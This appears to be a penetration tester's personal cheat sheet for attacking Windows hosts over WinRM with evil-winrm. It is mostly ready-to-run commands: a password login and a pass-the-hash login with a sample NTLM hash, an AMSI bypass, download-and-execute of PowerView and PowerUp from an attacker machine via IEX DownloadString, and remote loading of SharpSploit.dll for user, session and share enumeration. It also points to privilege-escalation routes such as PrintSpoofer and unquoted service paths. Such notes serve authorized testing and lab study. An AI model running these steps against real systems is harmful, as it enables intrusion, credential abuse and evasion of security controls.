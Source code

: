 **WinRM (Windows Remote Management) used against WinRM services (Microsoft implementation of WS-Management Protocol), usually port 5985.**
```bash - kali
sudo gem install winrm winrm-fs colorize stringio
```

```bash - kali
cd /opt && sudo git clone https://github.com/Hackplayers/evil-winrm.git
```

#### Shell with WinRM
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u jamie -p 'rangers'
```
#### Passing the hash
```bash - kali
ruby /opt/evil-winrm/evil-winrm.rb -i $TARGET -u Administrator -H '823452073d75b9d1cf70ebdf86c7f98e'
```

| SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |
| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |
#### 24 EvilWinRM
![[Port 5985 - WinRM ~#Steps]]

#### 25 EvilWinRM + Local Priv Esc Upload and Download
![[Port 5985 - WinRM ~#Downloading files - MUST USE FULL PATHS]]
![[Port 5985 - WinRM ~#Uploading files - MUST USE FULL PATHS]]

#### 26 EvilWinRM + Local Priv Esc PowerView ps1
Download the following:
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
```

```
menu
```

```
Bypass-4MSI
```

[[Python#Server]]
```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerView.ps1')
```

```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerUp.ps1')
```

```
Invoke-AllChecks
```

#### EvilWinRM + Local Privilege Escalation SharpSploit Enumeration

https://github.com/cobbr/SharpSploit

GUIDE: https://blog.king-sabri.net/red-team/how-to-compile-embed-and-use-sharpsploit

[[Python#Server]]

```
Bypass-4MSI
```

```
Dll-Loader -http -path http://$KALI/SharpSploit.dll
```

```
menu
```

```
[SharpSploit.
```

Hit tab a few times to see all possibilities!
```
[SharpSploit.Enumeration.Net]::GetNetLocalGroupMembers()
```

```
[SharpSploit.Enumeration.Net]::GetNetLocalGroups()
```

```
[SharpSploit.Enumeration.Net]::GetNetLoggedOnUsers()
```

```
[SharpSploit.Enumeration.Net]::GetNetSessions()
```

```
[SharpSploit.Enumeration.Net]::GetNetShares()
```

#### 33 EvilWinRM + Local Priv Esc SEImpersonate
[[7._Potato or PrintSpoofer#PrintSpoofer]]

#### 34 EvilWinRM + Local Priv Esc Unquoted Service Path

[[16._Unquoted Path]]

Depending on which folder we have read / write access to:
C:\Program.exe
C:\Program Files\Abyss.exe
C:\Program Files\Abyss Web\ Abyss Web Server\abyssws.exe